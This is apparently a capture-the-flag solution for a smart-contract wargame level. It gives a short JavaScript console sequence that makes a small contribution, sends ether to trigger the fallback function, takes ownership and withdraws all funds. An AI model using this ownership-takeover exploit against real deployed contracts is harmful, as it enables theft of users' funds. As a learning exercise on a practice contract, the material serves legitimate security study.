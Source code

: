 fallback

// need to cause fallback function to be invoked; this will make attacker owner and allow withdraw to be called

// we do not known owner's contribution amount

// send ether with .sendTransaction({}) method

```javascript
await contract.owner.call() // will be rightful owner
await contract.getContribution() // will be 0 since never contributed
await contract.contribute({value:50}) // small contribution so that contributions (mapping) is greater than 0
await contract.getContribution() // will be 50, but this never actually sent to contract
await contract.sendTransaction({value:50}) // send actual ether with transaction; owner should now be attacker
await contract.withdraw() // withdraw all funds from contract
```
